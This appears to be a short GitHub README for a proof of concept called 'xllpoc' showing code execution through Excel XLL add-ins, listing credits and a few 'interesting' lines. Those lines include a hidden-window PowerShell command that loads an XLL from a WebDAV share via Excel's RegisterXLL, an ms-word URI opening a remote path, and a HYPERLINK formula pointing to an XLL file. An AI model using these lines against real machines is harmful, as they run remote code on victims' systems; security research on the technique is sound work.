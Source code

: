 # xllpoc
Code Exec via Excel

<strong>CREDIT</strong><br>
<table>
<tr><td><li>EdParcell: https://github.com/edparcell/HelloWorldXll </li></td></tr><br>
<li>MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx</li><br> 
<li>Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52</li><br>
<li>Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ</li><br>
<li>Many others</li><br>
</table>
<br><br>
<strong>INTERESTING</strong><br>
ms-word:nft|u|http://PATH <br>
powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"  <br>
=HYPERLINK("http://127.0.0.1/xll.xll", "CLICK"  <br>

